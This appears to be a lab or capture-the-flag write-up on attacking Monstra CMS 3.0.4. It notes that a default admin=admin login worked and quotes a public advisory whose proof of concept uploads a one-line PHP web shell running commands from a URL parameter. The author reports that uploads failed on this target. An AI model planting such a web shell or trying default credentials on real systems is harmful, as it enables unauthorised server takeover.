






# 15 - Monstra


# Monstra 3.0.4



# Searchsploit



# Admin page



# Default credentials
I tried some default usernames and passwords, `admin=admin` for example and it surprisingly worked.





# Admin Page (Authenticated)



# Exploit


```
Exploit Title: Monstra CMS - 3.0.4 RCE
Vendor Homepage: http://monstra.org/
Software Link:
https://bitbucket.org/Awilum/monstra/downloads/monstra-3.0.4.zip
Discovered by: Ishaq Mohammed
Contact: https://twitter.com/security_prince
Website: https://about.me/security-prince
Category: webapps
Platform: PHP
Advisory Link: https://blogs.securiteam.com/index.php/archives/3559

Description:

MonstraCMS 3.0.4 allows users to upload arbitrary files which leads to a
remote command execution on the remote server.
```


# PoC 
```bash
Proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

           <?php

 $cmd=$_GET['cmd'];

 system($cmd);

 ?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

# File upload is broken


I couldn't upload any file on this server, txt, PHP, php7 tried everything. So our exploit won't work on this service.